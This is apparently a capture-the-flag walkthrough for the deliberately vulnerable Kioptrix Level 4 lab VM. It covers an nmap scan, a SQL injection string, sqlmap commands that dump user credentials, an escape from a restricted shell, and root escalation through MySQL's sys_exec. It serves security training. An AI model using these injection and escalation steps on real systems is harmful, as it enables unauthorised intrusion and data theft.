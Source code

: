 # Kioptrix Level 4
Create a new Red Hat Linux VM and select the disk image with the challenge's.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/GWo51YR.png)
Victim is `192.168.232.149`
`nmap -sS -sV -A -p- -oN NmapKioptrixLv4.txt 192.168.232.149`
![](https://i.imgur.com/cTYD6St.png)
Samba might be vulnerable? We test it later.
Here we got the Website and SSH, the SSH AC/PW might contain in the website.
Let's go find it.
![](https://i.imgur.com/LNSJKOD.png)
It's a simple login page.
We can try some SQLi, like:
`' or '1'='1`
![](https://i.imgur.com/hkKnzLh.png)
Wrong username.
Let's use Sqlmap to test the form.
![](https://i.imgur.com/oyWWTmb.png)
`sqlmap -r "KioptrixLv4Login.txt" --dbs`
![](https://i.imgur.com/2j2eBM8.png)
![](https://i.imgur.com/FVCcMEP.png)
We only know that database might be MySQL.
However, with `dirb`, we find that something apparently a username -- "John".
![](https://i.imgur.com/j2ydiJG.png)
Let's try this as username with sqlmap again.
Modified the POST text:
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL`
![](https://i.imgur.com/LToRPGU.png)
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL -D members --tables`
![](https://i.imgur.com/6t1kag7.png)
`sqlmap -r "KioptrixLv4Login1.txt" --dbms=MySQL -D members --T members --dump`
![](https://i.imgur.com/abpR79D.png)
Okay, we got the AC/PW here.
`Robert`'s password seems a Base64 encoded. But `John`'s is in plain text.
SSH with it.
![](https://i.imgur.com/177agch.png)
Here we are in the target's shell, but this shell is a restricted shell.
![](https://i.imgur.com/S9BJvak.png)
Reference to the article: [Escaping Restricted Linux Shells](https://www.sans.org/blog/escaping-restricted-linux-shells/)
We find this method might work with those restrict policies.
`echo python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()`
![](https://i.imgur.com/URknt9y.png)
Then you might get out the jail shell, and search the `/root`, you will find `congrats.txt`.
![](https://i.imgur.com/IQOuB2s.png)
But we are here to get the root privilege, no matter that flag not set in proper privilege.

Now you go to search the connection infomation in the web dirctory, `/home/www/*`, `/var/www/*`
Then you will find those in `/var/www/`
![](https://i.imgur.com/oIjOtOp.png)
Use it to connect to the MySQL database.
`mysql -h localhost -u root -p`
Then use this root privilege mysql to execute the system command like add john in to admin.
`select sys_exec('usermod -a -G admin john');`
![](https://i.imgur.com/Qz0mTjH.png)
Then `sudo su` to turn yourself in to root with john's password.
![](https://i.imgur.com/Tu6MjlZ.png)
